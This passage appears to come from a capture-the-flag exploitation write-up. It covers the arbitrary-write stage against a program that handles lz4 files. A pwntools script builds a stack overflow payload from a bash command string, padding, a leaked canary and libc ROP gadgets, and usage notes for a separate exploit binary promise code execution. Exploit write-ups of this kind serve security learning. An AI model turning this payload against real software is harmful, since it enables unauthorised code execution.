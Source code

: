 ![pic10](./pics/pic10.png)

## Arbitrary write
Okay, this is easy with leaked libc and canary, we can simply do ROP by creating another lz4 file.
One tiny note is that the second lz4 file should contain an arbitrary command, followed by sequence of same letters, so this will make the file shorter and add canary, then ROP under that sequence

```py
import os
from pwn import *

s = b"/bin/bash -c '/bin/bash 0>&1'\0"
s += b'A' * (0x1008 - len(s))
s += p64(int(sys.argv[2], 16)) # canary
s += p64(0) * 3
libc = int(sys.argv[1], 16)
s += p64(0x000000000010f75b + libc)
s += p64(int(sys.argv[3], 16)) #cmd
s += p64(0x000000000010f75c + libc)
s += p64(libc + 0x58740)
f = open("haha2", "wb")
f.write(s)

```
Exploit can be found at [Exploit](./exp.c)

**Exploit usage**
- `./exp 1` (specify 1 argument for arbitrary read)
- `./exp 1 2` (specify 2 arguments for getting RCE)
